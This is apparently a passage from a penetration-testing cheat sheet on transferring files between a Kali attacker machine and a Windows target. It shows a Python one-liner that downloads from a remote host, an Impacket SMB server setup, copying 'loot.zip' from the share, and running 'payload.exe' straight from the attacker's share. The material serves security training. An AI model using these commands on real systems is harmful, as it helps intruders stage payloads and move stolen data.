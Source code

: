 Download a file using Python:

```
python -c "import urllib.request; urllib.request.urlretrieve('http://10.10.10.10/cat.jpg', 'C:\\Users\\Public\\Downloads\\cat.jpg');"
```

### Transfering Files via SMB using Impacket

Kali comes loade with the incredible Impacket library which is a swiss army knife of network protocols... just Awesome.  You can easily create a SMB share on your local Kali machine and move files between Kali and Windows with ease.  
https://github.com/SecureAuthCorp/impacket  

First we will setup the SMB Share on Kali like so:

```
root@kali:~# impacket-smbserver root /root/Desktop
Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
                                                                    
```

Confirm it is up and running using Net View on the Windows command line:

```
C:\Users\Null>net view \\192.168.0.49
Shared resources at \\192.168.0.49

(null)

Share name  Type  Used as  Comment

-------------------------------------------------------------------------------
smbshare    Disk
The command completed successfully.
```

Then we can trasnfer files from the command line as if it were a normal folder:

```
C:\Users\Admin>dir \\192.168.0.49\smbshare 
C:\Users\Admin>copy \\192.168.0.49\smbshare\loot.zip .  
```

By far the most interesting feature of the SMB Share method is that you can execute files directly over the SMB Share without copying them to the remote machine (fileless execution is so hot right now):

```
C:\Users\Admin>\\192.168.0.49\smbshare\payload.exe
```
